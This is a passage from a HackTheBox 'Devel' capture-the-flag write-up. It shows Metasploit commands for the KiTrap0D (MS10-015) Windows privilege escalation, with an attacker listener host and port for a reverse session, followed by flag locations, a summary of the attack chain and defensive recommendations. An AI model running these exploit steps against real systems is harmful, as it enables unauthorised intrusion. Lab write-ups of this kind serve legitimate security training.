 ![](GitHubv2/HackTheBox/EASY/Devel/screenshots/exploit_kitrap0d.png)

Select and configure **KiTrap0D**. Exectue the shell in background session:

```bash
use 0
set lhost 10.10.14.2
set lport 443
set session 1
exploit
```

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/exploit_run.png)

We escalate successfully to Administrator:

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/root_user_flag.png)

---
## 4. Post-Exploitation

Retrieve the flags:

- User flag from `C:\Users\babis\Desktop`
- Root flag from `C:\Users\Administrator\Desktop`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **FTP Anonymous Login** → Gained access to upload files into the webroot.  
2. **Webshell Upload** → Obtained RCE as `iis apppool\web`.  
3. **Metasploit Reverse Shell** → Established a stable Meterpreter session.  
4. **KiTrap0D Exploit (MS10-015)** → Escalated privileges to Administrator.  

---
## Defensive Recommendations

- Disable **anonymous FTP access** or restrict it outside the IIS webroot.  
- Regularly patch Windows hosts to mitigate known local privilege escalation vulnerabilities (MS10-015).  
- Apply least privilege principles to application pools and restrict write permissions.  
